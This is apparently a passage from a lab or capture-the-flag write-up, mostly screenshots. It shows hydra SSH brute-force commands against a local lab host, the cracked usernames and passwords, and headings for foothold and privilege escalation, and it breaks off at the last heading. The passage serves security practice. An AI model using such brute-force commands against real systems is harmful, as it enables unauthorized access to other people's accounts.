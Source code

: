 removing whitespaces :

![Pasted image 20210910072006](https://user-images.githubusercontent.com/67979878/132949110-48295456-735e-4013-b390-583ff08e7e15.png)

and yes i swapped password and usernames by mistake :D


### Brute-Forcing 

just instead of trying them all :D 

`$ hydra -L usernames -P password_list ssh://192.168.1.7 `

so we have 3 valid ssh users :

```
[22][ssh] host: 192.168.1.7   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.1.7   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.1.7   login: janitor   password: Ilovepeepee
```

try any :

![Pasted image 20210910072500](https://user-images.githubusercontent.com/67979878/132949131-81511a49-8aa5-4878-85bb-9a05b7c21bd5.png)


# foothold :

![Pasted image 20210910072631](https://user-images.githubusercontent.com/67979878/132949150-e80ea727-f0e2-4edb-9a91-f928b49a2bbb.png)

one of these passwords must be  for sure fredf password :D

### sending files thorough network :

![Pasted image 20210910073230](https://user-images.githubusercontent.com/67979878/132949161-247458f2-c6a3-4189-b3ce-23bfb08f6d48.png)

![Pasted image 20210910073256](https://user-images.githubusercontent.com/67979878/132949167-a73b0c8c-4bb2-47d0-a66f-b439f3d32632.png)


## brute-forcing :

` hydra -l fredf -P passwords-found-on-post-it-notes.txt ssh://192.168.1.7 `

``[22][ssh] host: 192.168.1.7   login: fredf   password: B4-Tru3-001``


![Pasted image 20210910073502](https://user-images.githubusercontent.com/67979878/132949177-d421a273-b601-4ba9-b142-cde4f2dd193d.png)

## privilege escalation possible factors :

![Pasted image 20210910073542](https://user-images.githubusercontent.com/67979878/132949184-75a60fef-30f6-40ab-b6dd-10c09db07706.png)


# privilege escalation :
